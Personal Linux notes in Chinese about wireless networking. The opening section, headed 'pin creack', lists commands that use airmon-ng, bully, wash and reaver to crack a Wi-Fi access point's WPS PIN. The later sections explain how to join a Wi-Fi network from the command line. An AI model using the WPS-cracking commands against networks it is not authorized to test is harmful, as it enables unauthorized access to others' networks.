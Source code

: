 
## pin creack

```bash
ifconfig wlan0 down
# 这里会提示一些有可能被影响的进程 dhclient 和 wpa_supplicant
# 可以考虑将这些进程关闭
airmon-ng start wlan0
bully -e 热点名字 -v3 mon0

# 使用 reaver 的方法
wash -i mon0
reaver -a -S -vv -i mon0 -b `MAC`
```

## 通过命令行连接无线网, 简单版

来自 [connect-to-a-wireless-network-via-command-line](http://www.ghacks.net/2009/04/14/connect-to-a-wireless-network-via-command-line/)

```bash
#! /bin/bash
ifconfig wlan0
iwconfig wlan0 essid NETWORK_ID key WIRELESS_KEY
dhclient wlan0
```

`NETWORK_ID` 为无线名
`WIRELESS_KEY` 搞不清楚,应该是密码吧. 默认为 16 进制的值,可以用 `s:WIRELESS_KEY` 来使用 ascii

## 通过命令行连接无线网

来自 [how-to-connect-to-wpawpa2-wifi-network](http://linuxcommando.blogspot.com/2013/10/how-to-connect-to-wpawpa2-wifi-network.html)

需要使用的工具
`yum install wpa_supplicant wireless-tools -y`

```bash
# 1. 查看你的无线设备名
$iw dev
phy#0
	Interface wlan0
		ifindex 3
		type managed
# 2. 检查无线设备是否启用 里面需要有个UP
$ ip link show wlan0
3: wlan0: (BROADCAST,MULTICAST) mtu 1500 qdisc noop state DOWN mode DEFAULT qlen 1000
    link/ether 74:e5:43:a1:ce:65 brd ff:ff:ff:ff:ff:ff
# 启用无线设备
$ ip link set wlan0 up

# 检查无线设备是否启用 里面有个UP
$ ip link show wlan0
3: wlan0: (NO-CARRIER,BROADCAST,MULTICAST,UP) mtu 1500 qdisc mq state DOWN mode DEFAULT qlen 1000
    link/ether 74:e5:43:a1:ce:65 brd ff:ff:ff:ff:ff:ff

# 3. 检查连接状态
$ /sbin/iw wlan0 link
Not connected.

# 4. 扫描网络
$ sudo /sbin/iw wlan0 scan
BSS 00:14:d1:9c:1f:c8 (on wlan0)
        ... 略过 ...
	freq: 2412
```